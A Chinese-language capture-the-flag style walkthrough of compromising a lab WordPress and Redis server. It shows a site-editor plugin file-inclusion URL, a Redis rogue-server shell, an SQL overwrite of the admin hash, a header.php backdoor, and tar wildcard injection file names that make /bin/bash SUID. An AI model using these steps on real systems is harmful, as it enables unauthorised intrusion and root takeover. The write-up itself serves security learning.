


# 信息收集

## nmap


## 6379端口-redis

说明需要凭证才可以访问


## 80端口-wordpress

80端口的服务是wordpress，使用wpscan扫描

```shell
#wpscan --url http://192.168.191.166/   
[i] It seems like you have not updated the database for some time.
[+] URL: http://192.168.191.166/ [192.168.191.166]
[+] Started: Thu Jul  3 14:36:33 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.38 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.191.166/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.191.166/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://192.168.191.166/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.191.166/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.7.2 identified (Insecure, released on 2021-05-12).
 | Found By: Rss Generator (Passive Detection)                                                                                                                                                    
 |  - http://192.168.191.166/index.php/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>                                                                                               
 |  - http://192.168.191.166/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.7.2</generator>                                                               
[+] WordPress theme in use: twentytwentyone                                                                                                                                                       
 | Location: http://192.168.191.166/wp-content/themes/twentytwentyone/                                                                                                                            
 | Last Updated: 2025-04-15T00:00:00.000Z                                                                                                                                                         
 | Readme: http://192.168.191.166/wp-content/themes/twentytwentyone/readme.txt                                                                                                                    
 | [!] The version is out of date, the latest version is 2.5                                                                                                                                      
 | Style URL: http://192.168.191.166/wp-content/themes/twentytwentyone/style.css?ver=1.3                                                                                                          
 | Style Name: Twenty Twenty-One                                                                                                                                                                  
 | Style URI: https://wordpress.org/themes/twentytwentyone/                                                                                                                                       
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...                                                                           
 | Author: the WordPress team                                                                                                                                                                     
 | Author URI: https://wordpress.org/                                                                               
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.191.166/wp-content/themes/twentytwentyone/style.css?ver=1.3, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://192.168.191.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.191.166/wp-content/plugins/site-editor/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <===================================================================================================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jul  3 14:36:46 2025
[+] Requests Done: 172
[+] Cached Requests: 5
[+] Data Sent: 43.551 KB
[+] Data Received: 398.557 KB
[+] Memory used: 266.961 MB
[+] Elapsed time: 00:00:12
                                                   
```

其中site-editor插件版本为1.1.1，该版本存在本地文件包含漏洞

```
http://192.168.191.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```


前面redis服务登录时需要认证密码，认证密码是在`redis.conf`中的

网上查找`redis.conf`文件的位置，经过尝试最后是在`/etc/redis/redis.conf`，其中的`requirepass` 的值就是密码


使用该认证密码去登录redis，访问info信息可以成功回显


redis_version版本为5.0.14,可以用这个方法来获取shell，脚本地址：

https://github.com/n0b0dyCN/redis-rogue-server?tab=readme-ov-file



这里需要注意的是，运行这个脚本可能会反弹shell失败，什么都不回显，我也是重置了靶机之后才成功的


# getshell

上面得到的用户是redis，用户权限很低，查看开放的端口本地，本地开放有3306，去配置文件找数据库连接账号密码


```
karl:Wordpress1234
```

数据库中有admin的密码，识别密码的加密类型是phpass，并且在hashcat中也可以找到，但是我们没必要破解




利用该网站可以直接更新数据库中的数据，直接从数据库中修改密码

https://www.useotools.com/wordpress-password-hash-generator/output


```
UPDATE `wp_users` SET `user_pass` = '$P$B3Uxv.gJiOlC3CZay5Fomw0pYxYcM40' WHERE user_login = "admin";
```

然后就可以登录到wordpress后台，后台登录目录/wp-admin可以通过扫目录扫到


wordpress后台getshell的方式有很多，我们通过修改header.php,每个页面都会先加载hearder.php，所以我们在每个页面都可以命令执行


可以成功命令执行之后直接写入后门，访问任何界面都可以反弹shell


# 提权

存在一个三分钟定时任务，定时任务将/var/www/html下的文件运行tar命令进行打包


可以使用tar命令进行提权

```
echo "chmod +s /bin/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz * //运行执行的tar命令
```

当执行tar 命令时，通配符* 会自动被替换成参数，完整的命令就成下面

```
sudo /usr/bin/tar -czvf /tmp/backup.tar.gz *
 --checkpoint=1 --checkpoint-action=exec=sh shell.sh
```

shell.sh里面又是我们的shell命令，所以自然而然会给我们一个高权限shell，提权成功

等待三分钟定时任务运行，/bin/bash就有了suid权限


